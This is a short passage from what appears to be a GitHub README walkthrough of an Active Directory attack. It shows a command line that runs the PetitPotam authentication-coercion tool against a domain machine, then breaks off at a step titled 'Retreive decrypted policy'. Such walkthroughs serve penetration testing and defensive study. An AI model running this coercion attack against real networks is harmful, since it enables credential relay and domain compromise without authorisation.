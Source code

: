 ### Step 3
Execute PetitPotam against a machine within the domain 
```
python3 PetitPotam.py -u <username> -p <password> <listening address> <target-machine>
```

<div align="center">
<img src="./Screenshots/petitpotam.png" width="800">
</div>

### Step 4
Retreive decrypted policy
<div align="center">